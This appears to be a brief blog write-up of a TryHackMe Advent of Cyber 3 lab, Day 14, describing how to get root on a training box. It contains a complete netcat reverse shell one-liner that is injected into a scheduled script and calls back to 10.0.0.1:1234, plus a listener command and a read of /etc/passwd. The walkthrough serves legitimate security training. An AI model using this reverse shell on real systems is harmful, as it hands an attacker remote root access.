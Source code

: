 ```yaml
---
title: Day 14
layout: page
permalink: /adventofcyber3/day14
tags: TryHackMe
---
```


# Day-14:Dev(Insecure)Ops
# ![front](/images/aoc3/d14/front.png)
[https://tryhackme.com/room/adventofcyber3](https://tryhackme.com/room/adventofcyber3)


## Gaining Access
1. Using dirb command to find <br>
➟ 4 Directories
2. Number of scripts<br>
![scripts](/images/aoc3/d14/script.png)
3. Inside loot.sh add netcat reverse shell one liner `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` then start a listner at attacker's machine `nc -lvnp 1234` wait for a minute and you will have the root access
* cat /etc/passwd<br>
![pepper](/images/aoc3/d14/pepper.png) 
4. Flag:<br>
![flag](/images/aoc3/d14/flag.png)